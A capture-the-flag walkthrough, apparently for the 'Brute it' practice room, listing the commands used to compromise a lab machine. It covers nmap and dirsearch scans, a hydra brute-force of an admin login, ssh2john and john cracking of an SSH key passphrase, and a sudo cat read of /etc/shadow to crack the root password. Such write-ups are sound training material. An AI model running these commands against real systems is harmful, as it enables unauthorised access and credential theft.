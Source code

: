 # Brute it

1) nmap -A -sC -sV -oN bruteit.nmap --v MachineIP

How many ports are open?
What version of SSH is running?
What version of Apache is running?
Which Linux distribution is running?

2) dirsearch -u MachineIp -w Seclists/raft-large.txt

What is the hidden directory?

3) go to the hidden directory MachineIp/Hidden

4) Check source code

- this will enumerate a user

5) dirsearch -u MachineIp/Hidden/ -w Seclists/raft-large.txt

- recursive directory fuzzing

6) Check source code

- enumerate admin username

7) Bruteforce admin username

What is the user:password of the admin panel?

- hydra -l admin -P /rockyou.txt http-post-form "/path/path:username=^USER^&password=^PASS^&Login=Login:invalid"
- we know admin exists, then will brute force all words on rockyou wordlists since is a post we will use http-posst-form with the path and then login:login if is success and invalid so hydra can know when the password is correct
- get password
- log in 

8) Get RSA Key

What is John's RSA Private Key passphrase?
Web Flag

- paste on file
- ssh2jonh.py rsa_key | anew hash (anew is a tool to eliminate duplicates)
- we got the hash now crack it
- jonh hash --wordlist=/rockyou.txt
- get the pass

8) SSH 

- chmod 600 rsa_key
- ssh -i rsa_key jonh@MachineIp
- password 
- enter in the machine

9) Inside machine

user.txt


- ls
- user.tx
- sudo -l (check what u can use)
- https://gtfobins.github.io/ -> search cat
- sudo /bin/cat /etc/shadow | anew shadow.txt 
- cat shadow.txt | grep "root:" | anew hash.txt
- read /etc/shadow
- john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
- get root password

10) Sudo

- su root
- get root
- ls
- cat root.txt

